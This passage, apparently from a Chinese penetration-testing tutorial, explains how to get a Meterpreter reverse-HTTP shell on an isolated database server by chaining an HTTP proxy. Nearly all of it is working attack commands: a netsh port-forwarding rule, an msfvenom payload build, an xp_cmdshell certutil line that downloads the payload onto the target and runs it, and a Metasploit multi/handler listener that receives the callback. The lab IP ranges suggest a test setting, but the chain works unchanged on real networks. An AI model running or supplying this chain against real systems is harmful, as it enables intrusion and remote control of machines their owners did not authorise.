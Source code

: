     
    
    0.0.0.0：本机上的所有IPV4地址；127.0.0.1：环回地址，仅本地接口IP地址；

  

这一步可直接省略跳过

然后再利用系统自带的netsh命令将这台主机56出网段的HTTP代理8080端口转发至186不出网段的8888端口上，用于后期在MSF监听时设置HTTP代理。

  *   *   *   *   *   *   *   * 

    
    
    添加端口转发netsh interface portproxy add v4tov4 listenaddress=192.168.186.3 listenport=8888 connectaddress=192.168.56.102 connectport=8080  
    删除端口转发netsh interface portproxy delete v4tov4 listenaddress=192.168.186.3 listenport=8888  
    显示所有端口转发netsh interface portproxy show all

![](https://gitee.com/fuli009/images/raw/master/public/20210810121128.png)  

用msfvenom命令生成个`meterpreter_reverse_http`载荷文件，需要加上以下几个HTTP代理参数，填入186不出网段内网IP的HTTP代理：http://192.168.186.3:8080

  * `HttpProxyType`：代理类型（HTTP）；

  * `HttpProxyHost`：代理地址（192.168.186.3）；

  * `HttpProxyPort`：代理端口（8080）；

  * 

    
    
    msfvenom -p windows/x64/meterpreter_reverse_http LHOST=192.168.56.101 LPORT=443 HttpProxyType=HTTP HttpProxyHost=192.168.186.3 HttpProxyPort=8080 -f exe > /tmp/stageless.exe

![](https://gitee.com/fuli009/images/raw/master/public/20210810121129.png)  

利用中国菜刀的上传/下载功能将该文件放至192.168.186.3的Web服务器中供192.168.186.4断网数据库服务器下载，执行以下命令将`stageless.exe`下载至断网机磁盘中。

  * 

    
    
    EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.186.3/stageless.exe C:\ProgramData\stageless.exe'

![](https://gitee.com/fuli009/images/raw/master/public/20210810121130.png)  

handler监听模块这里必须也要用`meterpreter_reverse_http`，配置好相关选项后执行监听，然后在中国菜刀中利用xp_cmdshell组件执行`stageless.exe`后即可成功上线。‍

  *   *   *   *   *   *   *   *   *   * 

    
    
    msf5 > use exploit/multi/handlermsf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_httpmsf5 exploit(multi/handler) > set lhost 192.168.56.101msf5 exploit(multi/handler) > set lport 443msf5 exploit(multi/handler) > set httpproxytype HTTPmsf5 exploit(multi/handler) > set httpproxyhost 192.168.186.3msf5 exploit(multi/handler) > set httpproxyport 8080msf5 exploit(multi/handler) > exploit  
    EXEC master..xp_cmdshell 'C:\ProgramData\stageless.exe'
